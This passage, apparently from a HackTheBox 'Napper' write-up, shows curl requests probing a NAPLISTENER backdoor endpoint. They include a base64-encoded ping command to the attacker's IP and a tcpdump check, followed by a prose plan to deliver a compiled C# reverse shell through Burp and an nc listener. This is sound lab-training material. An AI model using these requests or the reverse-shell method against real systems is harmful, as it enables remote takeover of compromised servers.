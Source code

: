 I do some tests from console, sending a specially designed `curl` request (created with all the information I got from the **NAPLISTENER** malware post) but I don't have a successful response. I am going to use **[BurpSuite](https://portswigger.net/burp){:target="_blank"}**, so I can see more clearly the answers and modify the request to find the correct one. After changing the type of method to use - **POST** -, and testing with subdomains, I get a **200** response code when I use the domain. Now I have to investigate how to create an <ins>executable</ins> or malicious <ins>library</ins> that executes in memory and obtain a **Reverse Shell**.

```bash
curl -s -X GET https://app.napper.htb/ews/MsExgHealthCheckd/ -I -k          # :(
curl -s -X POST https://app.napper.htb/ews/MsExgHealthCheckd/ -I -k         # :(
curl -s -X GET "https://napper.htb/ews/MsExgHealthCheckd/" -H "Authorization: Basic ZXhhbXBsZTpFeGFtcGxlUGFzc3dvcmQ=" --data "sdafwe3rwe23=test" -v -k        # ??

echo 'ping -n 1 10.10.14.152' | base64 -w 0; echo
echo 'ping -n 1  10.10.14.152' | base64 -w 0; echo
#      --> clear special character!
tcpdump -i tun0 icmp -n
curl -s -X POST https://app.napper.htb/ews/MsExgHealthCheckd/ -k --data 'sdafwe3rwe23=cGluZyAtbiAxICAxMC4xMC4xNC4xNTIK'
#      :(

# Use C# programming language!
burpsuite &>/dev/null & disown
```

<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_019.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_020.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_021.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_022.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_023.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_024.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I search the **Internet** for some [example script written in **C#** to get a **Reverse Shell**](https://www.puckiestyle.nl/c-simple-reverse-shell/){:target="_blank"}, I find many resources. With the example code I can only modify the **IP** and **port** of my attacker machine in the injected command, install **[`mono-complete`](https://community.linuxmint.com/software/view/mono-complete){:target="_blank"}** on my machine to **[compile the source code](https://www.geeksforgeeks.org/how-to-compile-decompile-and-run-c-code-in-linux/){:target="_blank"}** and using `base64` encode it, open a port with `nc` to listen for a connection from the victim machine, finally with the **BurpSuite Repeater** tool I send the malicious request but I can't get anything, it's time to read a little more and consult about what problem I'm dragging.
